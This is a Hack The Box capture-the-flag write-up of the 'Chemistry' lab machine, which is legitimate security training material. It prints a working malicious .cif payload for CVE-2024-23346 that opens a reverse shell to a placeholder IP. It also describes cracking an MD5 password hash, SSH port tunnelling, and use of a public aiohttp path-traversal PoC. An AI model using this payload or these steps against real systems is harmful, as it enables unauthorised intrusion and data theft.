# Chemistry - HTB Writeup
Chemistry is an easy difficulty machine. The solving took many steps however the journey was natural so it didn't pose much trouble.  
Tasks Included:  
-identifying vulnerable services  
-exploiting vulnerable services  
-lateral movement  
-ssh port tunneling  
## User exploitation  

  

As always i started with nmap scan.  
The application used ssh which is ordinary and port 5000 was open.  
The script and port scan revealed that the service can be accessed via http.   
The important is the python version `Python 3.9.5` that  will be utilized later.  

  

To acces it all you  need to do is visit the ip on browser with thee port specified : `http://10.129.231.170:5000`  
On the page we are presented with login and register form.  
Since we don't have any login credential we can register with new account and access the application. 

  

Now the page is used for storing and viewing `.cif` files and examplpe is also provided.  
The .cif is used to store crystallography data that describe crystalic structure.   
So this application serves some chemistry workers to analyze their data.  
However the python version used that we enumerated earlier is vulnerable.  
Uploading malicious .cif file can trigger RCE because of broken eval() function.  
[CVE-2024-23346](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346)
Here is the crafted payload that i used.
```vuln.cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/YOUR_IP/4444 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
All you need to do is save this as vuln.cif to your machine, setup listener, change ip for your listenting ip, upload file to application, and as you click view yout get connection.
## Lateral movement
Now we are connected as user 'app' with no privileges.  
This is not that big of a problem.  After exploring the file system i found that there is database.db file in app/instance directory. The database is sqlite.  

  
  

After accessing the database we can see the table user. Dumping the data of this table reveals md5 hash of rosa's password.

  
  

MD5 is very easy to crack. After using hashcat we get the password and can ssh as rosa.

  
  


we grab flag...

## Root 

To get the root flag i discovered service running localy at 8080 after listing open ports.
This service is accessible via http. To access it from our browser we tunnel the port from ssh.

  


This binds localhost:8080 of target to my 8081 and i can view it through the browser.  

  

The application is used for analysing data. The application is very basic and doesn't offer much functionalities.

  

Luckily inspecting the web request that this application makes reveals it's name and version. `aiohttp/3.9.1`  
This version has critical vulnerability under CVE-2024-23334 and there is a poc for this on github > https://github.com/TheRedP4nther/LFI-aiohttp-CVE-2024-23334-PoC  
After downloading this poc we can soecify path to file we  want to read and it will successfuly dump the content. - if you don't use port 8080 you need to change it in the script  
And that way i can grab root flag without even loggin into  a machine.  


